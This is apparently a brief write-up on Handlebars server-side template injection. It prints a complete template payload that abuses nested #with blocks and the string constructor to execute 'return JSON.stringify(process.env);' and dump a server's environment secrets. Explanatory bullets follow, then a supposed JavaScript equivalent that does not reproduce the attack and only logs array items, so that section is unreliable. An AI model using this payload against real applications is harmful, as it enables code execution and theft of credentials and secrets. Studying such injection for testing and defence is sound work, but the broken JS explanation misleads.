 The #with helper is used to create a new context for a block of code within a template. It allows you to temporarily set a new context (or "scope") for a portion of the template. 
The #each helper is used for iterating over arrays or collections of data. 

Now we found a temepalte on this link
```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```


• Context Manipulation: It creates a series of nested contexts and manipulates the context using methods like pop and push on arrays derived from strings.
• Code Injection: It injects a string "return JSON.stringify(process.env);" into the context, which could potentially be used to execute code.
• Iteration and Execution: It iterates over the manipulated context, applying transformations and potentially executing the injected code if the environment allowed it.
Corresponding js code

// Step 1: Define a string and a split method
let string = 's';
let split = 'e'.split(''); // split into an array of characters: ["e"]

// Step 2: Manipulate array (assuming 'split' and 'conslist' are placeholders for dynamic operations)
let conslist = Array.from(split);
let stringConstructor = String.prototype.constructor;
conslist.push(stringConstructor);

// Step 3: Define a split method and manipulate array again
let codelist = 'e'.split('');
let codeToRun = "return JSON.stringify(process.env);";
conslist.push(codeToRun);

// Step 4: Iterate over conslist and execute code
conslist.forEach(item => {
    // Simulate 'string.sub.apply' operation
    // In a real scenario, you would dynamically execute or use this item in some way
    console.log(item);
});
